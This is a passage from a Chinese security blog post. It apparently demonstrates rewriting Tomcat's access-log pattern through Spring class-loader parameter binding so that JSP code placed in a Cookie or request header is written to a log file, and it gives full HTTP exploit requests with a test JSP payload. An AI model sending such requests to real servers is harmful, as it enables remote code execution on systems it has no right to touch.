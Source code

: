 总之，需要避开直接对于百分号的写入，下文尝试了有三种方式去定义 pattern。

#### [](#221-%E4%BB%8E-header-%E4%B8%AD%E8%AF%BB%E5%8F%96)2.2.1 从 header 中读取

由上文可知，`%{xxx}c` 项的作用是：从 HTTP Cookie 中读取 xxx 项，并写入到 log 文件中。因此数据包定义为：

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>``` | ```fallback<br>class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=1<br>class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bcmd%7Dc<br>``` |

最后的 HTTP 请求为：

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>``` | ```http<br>GET /?class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bcmd%7Dc HTTP/1.1<br>Host: IP:PORT<br>Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9<br>Accept-Encoding: gzip, deflate<br>Accept-Language: zh-CN,zh;q=0.9,en;q=0.8<br>Cookie: remember-me=YWRtaW46MTY0OTIxMzE4ODQyMTpmYzJiZTA2NWMyYzFlOGQwOTUzMWJkOGQxZmMzYmQ1Yg; cmd=<%out.println(11223344);%><br>Connection: close<br>``` |

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202203302146926.png-water_print](assets/1699408077-2fd78c810970706cab9a3ba5c320630f.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202203302146926.png-water_print")

由于 `;` 作为 Cookie 的分隔符，因此写入的内容会被截断。（不知哪位师傅有解决办法，可以分享下）：`<%out.println(11223344)`

#### [](#222-%E4%BB%8E-header-%E4%B8%AD%E8%AF%BB%E5%8F%96)2.2.2 从 header 中读取

由上文可知，`%{xxx}i` 项的作用是：从 HTTP Header 中读取 xxx 项，并写入到 log 文件中。因此数据包定义为：

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>``` | ```fallback<br>class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=2<br>class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bcmd%7Di<br>``` |

最后的 HTTP 请求为：

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>``` | ```http<br>GET /?class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bcmd%7Di HTTP/1.1<br>Host: IP:PORT<br>cmd: <%out.println("11223344");%><br>Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9<br>Accept-Encoding: gzip, deflate<br>Accept-Language: zh-CN,zh;q=0.9,en;q=0.8<br>Cookie: remember-me=YWRtaW46MTY0OTIxMzE4ODQyMTpmYzJiZTA2NWMyYzFlOGQwOTUzMWJkOGQxZmMzYmQ1Yg<br>Connection: close<br>``` |
